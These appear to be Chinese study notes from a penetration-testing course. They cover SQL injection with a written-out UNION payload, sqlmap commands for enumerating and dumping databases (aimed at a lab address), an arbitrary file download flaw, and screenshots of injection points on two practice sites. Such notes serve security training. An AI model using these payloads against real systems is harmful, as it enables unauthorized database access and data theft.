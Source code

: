 ## 7.14（周日）

### 上午

#### 1. payload：攻击载荷（攻击代码）

#### 2. sqlmap使用

##### 使用方式

* 当存在sql报错信息时，考虑存在sql注入，可用sqlmap进行实验

  ```
  1.通过sqlmap相关指令获取到payload：
  id=-4923' UNION ALL SELECT NULL,NULL,CONCAT(0x7170767871,0x6c52764a46544d5255545848736a6b6e6c7146716d6248776e797150616c42477a69455064717167,0x717a6b6b71)-- -
  2.将获取的payload用16进制进行转换：
  	id=-4923' UNION ALL SELECT NULL,NULL,CONCAT(0x40,database(),0x40),NULL-- -
  3.将payload替换网页地址的参数
  ```

* 常用于获取数据库结构信息

##### 案例

```
sqlmap -u [url] //测试某一url是否存在sql注入

	--current-db //查询当前数据库（推荐使用）
	--tables -D [数据库名]
	--columns -T [字段名] -D [数据库名]
例：
sqlmap -u http://192.168.71.36/Less-1/?id=2 //对某一url进行sql注入测试
sqlmap -u [url] --current-db //查询当前数据库名称
sqlmap -u [url] --tables -D [数据库名] //查询当前数据库下的表
sqlmap -u [url] --columns -T [字段名] -D [数据库名] //查询某一张表的字段
sqlmap -u [url] -D [数据库名] -T [表名] -C [字段名] --dump //将指定数据库的指定表的指定字段的数据脱机
```

##### 参数

* 参数可以随机组合，顺序没有要求

| 参数名称         | 含义                     |
| ---------------- | ------------------------ |
| -D               | 指定数据库               |
| -T               | 指定表格                 |
| -C               | 指定字段                 |
| -dbs             | 列出当前数据库           |
| --database --dbs | 获取数据库列表           |
| --tables         | 获取当前条件下所有表     |
| --columns        | 获取字段列表             |
| --current-db     | 获取当前数据库           |
| --current-user   | 获取当前用户             |
| --dump           | 导出内容（慎重使用！！） |
| --flush-session  | 清除sqlmap注入的缓存     |
| --batch          | 表示使用推荐选项         |

### 下午

#### 1. 任意漏洞下载

* 定义：在传递参数或者权限校验时用户可以自由传递下载内容
* 对下载的内容（参数）进行解码，解析下载位置后，可以自由编码想要下载的内容，并进行下载
* 适用于有**下载专区**的网站

#### 2. 注入点实战

##### 第一个网站

###### 第1个注入点

* news.php页面
* ![](../../images/7.14-afternoon-first/injection1.png)

###### 第2个注入点

* course.php页面
* ![](../../images/7.14-afternoon-first/injection2.png)

###### 第3个注入点

* Download.php
* ![](../../images/7.14-afternoon-first/injection3.png)

###### 第4个注入点

* Q&A问答
* ![](../../images/7.14-afternoon-first/injection4.png)

###### 第5个注入点

* activities.php页面
* ![](../../images/7.14-afternoon-first/injection5.png)

###### 第6个注入点

* discuss.php页面
* ![](../../images/7.14-afternoon-first/injection6.png)

##### 第二个网站

###### 第1、2个注入点

* news.php页面
* ![](../../images/7.14-afternoon-second/injection2.png)



